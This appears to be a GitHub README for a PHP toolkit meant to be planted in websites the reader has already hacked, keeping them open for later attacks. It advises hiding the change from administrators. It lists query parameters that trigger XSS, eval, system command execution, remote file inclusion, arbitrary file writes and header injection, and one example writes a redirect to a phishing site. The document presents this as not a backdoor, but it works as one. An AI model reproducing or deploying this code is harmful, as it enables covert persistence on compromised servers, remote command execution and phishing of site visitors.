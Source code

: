 <div align="center">

# PHP Vulnerable Coders [![V](https://img.shields.io/badge/version-1-blue?style=flat-square)](https://github.com/ZechBron/PHP_VulnCdoe)

[![Coded By](https://img.shields.io/badge/Coded%20By-Zech%20Bron-red?style=for-the-badge&logo=github)](https://github.com/ZechBron)


</div>

### Description:

This is a Vulnerable PHP Codes to put inside a file (but do not modify that file to avoid the admin discovering what you've done) for future attack.
Note that the only purpose of this code is to insert this shit in a file to make the site vulnerable for your future attack.

Note that this is not a shell or backdoor. This is just a vulnerable php codes that you can insert to the site you have hacked to make the sites vulnerable for future attack.

__Disadvatage__

Other hackers might find and exploit this but if you want though you can put this vulnerable code in a seperate file and just put a password so only you can access this.


### Queries and Parameters

+ XSS

   .php?zch-css=//your xss parameter here

+ Eval

   .php?zeval=//command here

+ Exec

   .php?zexec=//command here

+ System

   .php?zsys=//command here

   `Note: You don't have to type system() here. Just type the commands and that's all. For Example: .php?zsys=uname%20-a

+ File Inclusions

   .php?zfile=//remote or local file here

+ Create and Write a File

   .php?zfilename=filename-of-your-choice&&zcontent=file-content

   ```
   Example:
   I want to write a php file in a site but that site has no shell yet.
   The filename I want is redir.php and the content I want is this: <?php header("LOcation: " . "https://my-phishing-sites.com");

   So I will put these in the address bar:

   .php?zfilename=redir.php&&zcontent=<?php header("Location: " . "https://my-phishing-site.com");


   Everything depends on you.

+ Header Hacking and Manipulating

   .php?zheader=//Your Header Content Here
